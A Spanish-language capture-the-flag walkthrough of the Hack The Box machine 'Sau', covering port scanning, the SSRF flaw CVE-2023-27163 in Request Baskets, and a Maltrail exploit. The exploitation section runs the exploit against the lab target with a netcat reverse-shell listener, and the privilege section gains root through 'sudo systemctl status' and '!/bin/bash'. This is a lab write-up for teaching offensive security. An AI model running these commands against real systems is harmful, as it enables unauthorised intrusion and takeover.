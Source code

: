 ```yaml
---
description: '✍️ Autor: mrh4sh 🔍 Dificultad: Fácil 📅 Fecha de creación: 30/06/2018'
---
```


# Sau

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.224
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190333.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.224
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190507.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH)**: El servicio SSH está en ejecución con la versión 8.2p1 de OpenSSH en un sistema Ubuntu. Esta versión es relativamente moderna y es probable que esté actualizada, pero aún es importante revisar posibles vulnerabilidades específicas de esta versión, como debilidades en la configuración del servicio o ataques de fuerza bruta si no se utiliza autenticación de clave pública. El escaneo de las claves del host muestra RSA, ECDSA y ED25519, lo que sugiere que se están utilizando claves modernas, lo que es una buena práctica.
* **Puerto 80 (HTTP)**: El puerto 80 está filtrado, lo que significa que no hay respuesta directa en este puerto desde el escaneo. Podría haber un firewall o una configuración de seguridad que bloquea el tráfico en este puerto, o simplemente podría no estar activo.
* **Puerto 55555 (HTTP)**: Este puerto está abierto y ejecuta un servidor HTTP construido con Golang, como indica la descripción. El título de la página es "Request Baskets" y la solicitud fue redirigida a `/web`, lo que indica que la aplicación web probablemente tenga rutas configuradas para manejar diferentes solicitudes.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,55555 -v 10.10.11.224
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reviso el puerto 55555.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mirando la página nos sale la versión por lo que buscamos si tiene un CVE para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar una búsqueda en Google, se puede identificar que esta versión es vulnerable a una falla de SSRF (Server Side Request Forgery), CVE-2023-27163, que afecta al componente de la API de Request Baskets, específicamente en el endpoint `/api/baskets/{name}`. Esta vulnerabilidad permite a los atacantes realizar solicitudes manipuladas a la API, lo que les da acceso a recursos internos de la red e información sensible.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Enviamos la petición como se nos indica.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dado que esta versión es vulnerable a SSRF y que el puerto 80 estaba filtrado, lo que nos impedía acceder a él desde el exterior, modificaremos la configuración para redirigir las solicitudes GET hacia el propio localhost del servidor, específicamente al puerto 80. De esta forma, conseguiremos establecer una conexión con los recursos internos del servidor.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Recargamos de nuevo.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos si la versión de **Maltrail** tiene alguna vulnerabilidad por internet.

{% @github-files/github-code-block url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

Ejecutamos mientras nos ponemos en escucha.

```bash
python3 exploit.py 10.10.14.14 4444 http://10.10.11.224:55555/6ywt1xx/
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 195946.png" alt=""><figcaption></figcaption></figure>
